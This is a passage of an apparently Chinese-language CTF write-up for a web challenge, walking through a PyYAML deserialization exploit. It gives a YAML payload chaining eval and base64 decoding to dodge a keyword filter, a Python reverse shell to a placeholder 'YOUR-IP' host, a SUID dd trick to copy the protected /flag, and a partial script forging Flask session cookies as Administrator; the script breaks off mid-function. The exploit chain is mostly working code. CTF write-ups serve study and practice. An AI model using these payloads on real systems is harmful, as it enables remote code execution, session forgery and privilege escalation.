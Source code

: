 然后发现任意文件读没什么用（~~主要是读不到 flag~~），然后尝试写文件也写不到 `templates` 里面去（事后发现确实没那个目录的权限），所以剩下只有 `yaml.load` 可以利用了。

然后 `yaml` 过滤了 `system` 等关键词，所以一个比较省事的办法就是先 base64 一下然后再 eval。

然后至于怎么实现这个逻辑，翻了一圈大佬的文章，最后发现一个能用的：

https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/

大佬没给出实现，自己按大佬博客的思路实现一下：

``` yaml
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
    - !!python/name:base64.b64decode
    - ["{BASE64 HERE}"]
```

翻译过来其实就是 `bytes(map(eval, map(base64.b64decode, 'BASE64 HERE')))`。然后 base64 的部分，可以填一个常规的反弹 shell：   
```
exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"YOUR-IP\",PORT)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/sh\",\"-i\"]);")
```

然后把这个 yaml 上传到一个 `/display` 能访问到的位置上（即要提前算好 md5），然后再用 `/display` 摸一下，就能执行了。执行完了之后，就拿到了 shell。

但是翻了一下，发现 `/flag` 好像没权限读。

`find -perm -u=s -type f 2>/dev/null` 遍历有suid权限的程序，发现除了正常的程序外有dd

考虑dd写passwd提到root，但是队里神仙师傅直接用 `dd if=/flag of=copy` 复制了一份 flag，然后就可以读了。

上面 web 部分的脚本如下：

``` python
from itsdangerous import URLSafeTimedSerializer
import base64
import flask
import hashlib
import os
import requests

def dump_cookies(secret_key, data):
    return URLSafeTimedSerializer(
        secret_key,
        salt = 'cookie-session',
        serializer = flask.json.tag.TaggedJSONSerializer(),
        signer_kwargs = dict(key_derivation = "hmac", digest_method = hashlib.sha1),
    ).dumps(data)

def create_rar(target, contents):
    for (file, content) in contents.items():
        with open(file, 'w') as f:
            f.write(content)
        os.system(f'rar a {target} {file}')

def create_session(key):
    data = { 'user': 'Administrator', 'updir': 'fileinfo' }
    return dump_cookies(key, data)

def create_yaml_payload():
    command = f'exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect((\\\"YOUR-IP\\\",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
     os.dup2(s.fileno(),2); p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);")'
    command_encode = base64.b64encode(command.encode()).decode()
```